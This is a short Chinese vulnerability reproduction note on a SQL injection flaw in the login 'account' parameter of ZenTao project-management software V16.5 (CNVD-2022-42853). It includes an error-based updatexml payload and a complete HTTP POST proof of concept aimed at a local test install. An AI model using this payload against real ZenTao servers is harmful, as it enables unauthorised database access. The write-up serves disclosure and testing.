 # 禅道 V16.5 SQL 注入 CNVD-2022-42853

## 漏洞描述

禅道是一款专业的国产开源研发项目管理软件，集产品管理，项目管理， 质量管理，文档管理，组织管理和事务管理于一体，完整覆盖了研发项目管理的核心流程，管理思想基于国际流行的敏捷项目管理方法-Scrum，在遵循其价值观的基础上，结合国内项目研发的现状，整合了任务管理，需要管理，Bug 管理，用例管理等多种功能，覆盖软件从计划到发布的整个生命周期。

禅道 V16.5 未对输入的 account 参数内容作过滤校验，导致攻击者拼接恶意 SQL 语句执行。

## 环境搭建

下载环境：

```
https://www.zentao.net/dl/zentao/16.5/ZenTaoPMS.16.5.win64.exe
```

## 漏洞复现

报错型注入 Payload：

```
admin' and updatexml(1,concat(0x7e,(user),0x7e),1) and '1'='1  
```

poc：

```
POST /zentao/user-login.html HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

account=admin%27+and++updatexml%281%2Cconcat%280x1%2Cuser%28%29%29%2C1%29+and+%271%27%3D%271
```